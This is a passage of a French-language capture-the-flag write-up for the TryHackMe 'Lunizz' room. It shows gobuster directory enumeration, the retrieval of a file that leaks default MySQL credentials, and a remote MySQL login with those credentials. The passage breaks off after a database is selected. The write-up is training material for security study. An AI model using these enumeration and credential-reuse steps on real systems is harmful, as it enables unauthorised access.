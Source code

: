 D'après le titre du site nmap nous dit que c'est la page par défaut d'apache qui est mise.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u lunizz.thm -w /usr/share/dirb/wordlists/common.txt -x txt -q
/.hta                 (Status: 403) [Size: 275]
/.hta.txt             (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/hidden               (Status: 301) [Size: 309] [--> http://lunizz.thm/hidden/]
/index.html           (Status: 200) [Size: 10918]                              
/instructions.txt     (Status: 200) [Size: 339]                                
/server-status        (Status: 403) [Size: 275]                                
/whatever             (Status: 301) [Size: 311] [--> http://lunizz.thm/whatever/]
tim@kali:~/Bureau/tryhackme/write-up$ 

tim@kali:~/Bureau/tryhackme/write-up$ curl http://lunizz.thm/instructions.txt
Made By CTF_SCRIPTS_CAVE (not real)

Thanks for installing our ctf script

#Steps
- Create a mysql user (runcheck:CTF_script_cave_changeme)
- Change necessary lines of config.php file

Done you can start using ctf script

#Notes
please do not use default creds (IT'S DANGEROUS) <<<<<<<<<---------------------------- READ THIS LINE PLEASE


```

Avec gobuster on trouve un fichier instructions.txt   
Dans le fichier instructions.txt on trouve des indentifiants runcheck:CTF_script_cave_changeme  

**What is the default password for mysql**  

Le mot de passe par défaut est : CTF_script_cave_changeme    

**I can't run commands, there must be a mysql column that controls command executer** 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ mysql -u runcheck -pCTF_script_cave_changeme  -h lunizz.thm
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+
2 rows in set (0.036 sec)
MySQL [(none)]> use runornot;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```